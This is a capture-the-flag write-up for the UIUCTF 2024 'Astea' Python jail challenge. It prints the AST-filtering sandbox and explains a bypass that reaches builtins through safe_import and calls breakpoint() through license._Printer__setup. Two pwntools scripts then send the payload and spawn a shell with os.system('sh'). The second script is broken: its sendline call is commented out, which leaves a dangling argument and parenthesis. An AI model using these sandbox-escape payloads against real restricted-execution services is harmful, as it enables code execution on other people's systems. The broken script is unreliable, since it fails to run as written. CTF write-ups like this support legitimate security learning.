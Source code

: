 # UIUCTF 2024 Astea

```python
import ast

def safe_import():
  print("Why do you need imports to make tea?")

def safe_call():
  print("Why do you need function calls to make tea?")

class CoolDownTea(ast.NodeTransformer):
  def visit_Call(self, node: ast.Call) -> ast.AST:
    return ast.Call(func=ast.Name(id='safe_call', ctx=ast.Load()), args=[], keywords=[])
  
  def visit_Import(self, node: ast.AST) -> ast.AST:
    return ast.Expr(value=ast.Call(func=ast.Name(id='safe_import', ctx=ast.Load()), args=[], keywords=[]))
  
  def visit_ImportFrom(self, node: ast.ImportFrom) -> ast.AST:
    return ast.Expr(value=ast.Call(func=ast.Name(id='safe_import', ctx=ast.Load()), args=[], keywords=[]))
  
  def visit_Assign(self, node: ast.Assign) -> ast.AST:
    return ast.Assign(targets=node.targets, value=ast.Constant(value=0))
  
  def visit_BinOp(self, node: ast.BinOp) -> ast.AST:
    return ast.BinOp(left=ast.Constant(0), op=node.op, right=ast.Constant(0))
  
code = input('Nothing is quite like a cup of tea in the morning: ').splitlines()[0]

cup = ast.parse(code)
cup = CoolDownTea().visit(cup)
ast.fix_missing_locations(cup)

exec(compile(cup, '', 'exec'), {'__builtins__': {}}, {'safe_import': safe_import, 'safe_call': safe_call})
```

Requirements:

1. No function call: Use `f"{license}" for license._Printer__setup in [function_to_call]]` to call `function_to_call`
2. No builtins: Use `.__builtins__` of the given function to access builtins dict, or `.__globals__["__builtins__"]` of the given function to access builtins module
3. No assignment: Use `[a:=b]` for assignment

Inspired by [Pyjail Cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet/#running-functions-and-methods-without-parenthesis).

We want to call `breakpoint()`, so:

1. Get builtins from `safe_import`: `builtins = safe_import.__globals__["__builtins__"]`, to avoid assignment, use `[builtins:=safe_import.__globals__["__builtins__"]]`; alternatively, use `[builtins:=safe_import.__builtins__]` which is a dict instead of module
2. Get license and breakpoint from builtins module: `[...,breakpoint:=builtins.breakpoint,license:=builtins.license]`, or from builtins dict: `[...,breakpoint:=builtins["breakpoint"],license:=builtins["license"]]`
3. Call breakpoint via `license._Printer__setup`: `[f"{license}" for license._Printer__setup in [breakpoint]]`

Attack script using builtins module `safe_import.__globals__["__builtins__"]`:

```python
from pwn import *

context(log_level="debug")

p = process(["python3", "astea.py"])
p.recvuntil(b"morning:")
p.sendline(
    '[builtins:=safe_import.__globals__["__builtins__"],breakpoint:=builtins.breakpoint,license:=builtins.license,[f"{license}" for license._Printer__setup in [breakpoint]]]'.encode()
)
p.recvuntil(b"(Pdb) ")
p.sendline(b"import os")
p.sendline(b"os.system('sh')")

p.interactive()
```

Using builtins dict `safe_import.__builtins__`:

```python
from pwn import *

context(log_level="debug")

p = process(["python3", "astea.py"])
p.recvuntil(b"morning:")
    #'[builtins:=safe_import.__globals__["__builtins__"],breakpoint:=builtins.breakpoint,license:=builtins.license,[f"{license}" for license._Printer__setup in [breakpoint]]]'.encode()
    '[builtins:=safe_import.__builtins__,breakpoint:=builtins["breakpoint"],license:=builtins["license"],[f"{license}" for license._Printer__setup in [breakpoint]]]'.encode()
)
p.recvuntil(b"(Pdb) ")
p.sendline(b"import os")
p.sendline(b"os.system('sh')")

p.interactive()
```

What is `license._Printer__setup`?

```python
>>> type(license)
<class '_sitebuiltins._Printer'>
>>> license._Printer__setup
<bound method _Printer.__setup of Type license() to see the full license text>
```

It corresponds to `_setup(self)` function of `class _Printer` in [_sitebuiltins.py](https://github.com/python/cpython/blob/811acc85d5b001e0bef6ac2e6b499e7c4f149262/Lib/_sitebuiltins.py#L44). It is called when we convert `license` to `str`:

```python
def __repr__(self):
    self.__setup() # <- calls license._Printer__setup
    if len(self.__lines) <= self.MAXLINES:
        return "\n".join(self.__lines)
    else:
        return "Type %s() to see the full %s text" % ((self.__name,)*2)
```
